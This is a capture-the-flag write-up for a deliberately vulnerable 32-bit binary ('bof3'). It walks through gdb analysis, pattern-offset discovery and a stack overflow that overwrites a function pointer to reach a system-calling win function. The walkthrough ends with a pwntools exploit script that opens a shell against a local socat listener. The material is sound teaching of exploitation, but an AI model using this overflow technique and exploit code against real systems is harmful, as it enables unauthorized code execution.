# Bof3 Writeup

## recon
The first step to breaking this binary is to get the ASM output of the binary. This can be done through: `objdump -d -M intel bof3 > bof3.asm`. After is done, you can begin determining which functions are breakable in GDB.

As we scroll through the asm file in an editor of your choice, we will see that there are `win, lose, and main` functions. These are the functions in which we will need to set breakpoints so that we can begin to walk the code execution paths.

## Vulnerability Analysis
Looking at the individual functions, we can begin to see the general idea for the code execution path of the program.

Within the main function, we can see references to the lose function:

Register values at this instruction:
```asm
EAX: 0x80484b4 (<lose>:	push   ebp)
EBX: 0xf7fc1ff4 --> 0x1a2d7c 
ECX: 0x1 
EDX: 0xf7fc38c4 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffffd1b8 --> 0x0 
ESP: 0xffffd150 --> 0x80485fd --> 0x1007325 
EIP: 0x80484fc (<main+42>:	call   eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```
ASM:
```asm
   0x804851c <main+41>:	add    esp,0x10
   0x804851f <main+44>:	mov    eax,DWORD PTR [ebp-0xc]
=> 0x8048522 <main+47>:	call   eax                         ; This is the point in which it calls the address of lose
```
Based on this, we can tell that we need to overwrite the code execution path so that we do not hit the lose function. In this case, it requires us overwritting the value of `EAX` to point to the `win` function before we get to the `call eax` instruction.

## Exploitation
Given that we know this program accepts input through scanf, we can assume we have a buffer that will be storing whatever we enter into the program. This means that we may have the opportunity to overflow the buffer to gain control of the stack, which is required to modify the value of `EAX` before the `call eax` instruction.

To exploit this type of program, one of the easiest way to get a rough estimate of how much data to send to the program to hit a buffer overflow is to look at the prologue:
```asm
   0x80484d2 <main>:	push   ebp
   0x80484d3 <main+1>:	mov    ebp,esp
   0x80484d5 <main+3>:	and    esp,0xfffffff0
   0x80484d8 <main+6>:	sub    esp,0x60
```
Based on this we can see that we were allocated roughly 96 bytes on the stack for variables/operations (indicated by `sub esp,0x60`). Therefore, we can now get a rough estimate for how many characters we need to send to the program to get undefined behaviour (in this case, I use 100).

One of the easiest ways to figure out how many characters it takes to get to the value of EAX on the stack is to use the `pattern` command in gdb:
```sh
gdb-peda$ pattern create 100 u_pattern.txt
Writing pattern of 100 chars to filename "u_pattern.txt"
```
This creates a pattern string of unique sequences that we can enter as input to our program while it is running in gdb. This allows us to search for the index of a particular sequence we find in the eax register after we input the string into the program. This index then gives us the indication as to how many characters are needed before we can overwrite the address in `EAX`.

To use this pattern in gdb, you set your breakpoints and run: `r < u_pattern.txt`. Once this is done, you can now `next` until you hit the `call eax` instruction. Once there, you can observe that the `EAX` register contains the value of a sequence within your pattern string, instead of the address to `lose`. In order to make this useful to you, you must save this sequence (copy it into gedit/nano/notepad/etc) to find the index for later on. In my case, the sequence was:
```asm
EAX: 0x41644141 ('AAdA')
```
Now that we have the sequence, we now have to find out what index this is within the pattern string. To do this, we can do the following:
```sh
$ cat u_pattern.txt
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
```
This will allow us to copy down our entire pattern string, which we will need so that we can find the index of our sequence within it. To find the index, I use python and the `.index()` function on a string type, as seen below:
```sh
$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41) 
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL".index("AAdA")
64
>>> exit()
```
This allows us to see that it took 64 bytes to reach the value of `EAX` on the stack before the `call eax` instruction. Knowing this, we can now build our exploit string. Since we know that it takes 64 bytes to reach the address read into `EAX`, we can send 64 bytes of whatever character we want. In my case, i use the character `"A"`. We then append the packed address of the `win` function, which contains a system call, to our exploit string. This will allow us to call the `win` function, instead of the `lose` function. Therefore, we will take advantage of the `pwntools` module for the `p32` function to pack our function's address. Therefore, we would use `p32(0x08048494)` to get the packed value of the win function address.

Once we are done with this, we can test our exploit by doing:
```sh
$ python -c "from pwn import *; print ('A' * 64) + p32(0x08048494)" > exploit_string.txt
```
followed by opening gdb with the executable again, resetting the breakpoints, and running with `r < exploit_string.txt` to now supply the input with our exploit string. You can then next all the way to the `call eax` instruction. Once there, you can see how we now have the address of the `win` function in `EAX`. Therefore, if you hit `next` once again, we should now be within the `win` function:
```asm
=> 0x804849a <win+6>:	mov    DWORD PTR [esp],0x80485e0
   0x80484a1 <win+13>:	call   0x8048380 <puts@plt>
   0x80484a6 <win+18>:	mov    DWORD PTR [esp],0x80485ea
   0x80484ad <win+25>:	call   0x8048390 <system@plt>
   0x80484b2 <win+30>:	leave
```
Therefore, if we continue stepping through the function, we shoudl hit the line:
```asm
   0x80484ad <win+25>:	call   0x8048390 <system@plt>
```
which will provide us shell access in our program. Now, it is notable that we will not get shell access within GDB. however, we know that we hit the system call, which is all that really matters right now, as we now know that we are able to modify the code execution path to hit the system call. An example of what you may see in GDB once you hit the system call is as follows:
```sh
[New process 3372]
process 3372 is executing new program: /bin/dash
warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
Architecture of file not recognized.
```

If we actually want to be able to get a shell, this will require us building a script to connect to this program running on localhost. Therefore, you will need to have `socat` running on your local so that you can connect to yourself through your exploit script.

Now, there is a copy of the exploit script within this directory of the repository that you can actively run instead of having to copy and paste the following excerpts, however, for the sake of clarity, I will be walking through the exploit script breifly:

First of all, you must import `pwntools`:
```py
from pwn import *
```
This imports all of the pwntool modules into the local namespace in python. You then need to set up your remote connection to connect to whatever IP and PORT you are listening to on `socat` (in my case, its `localhost:1234`):
```py
r = remote("localhost", 1234)
```
You then need to create your exploit to send to the application listening on this address:
```py
exploit = ("A" * 64) + p32(0x08048494)
```
Finally, you send your string to the application, and call the `.interactive()` function to create an interactive shell:
```py
r.send(exploit)
r.interactive()
```
There you go! You just owned the challenge!
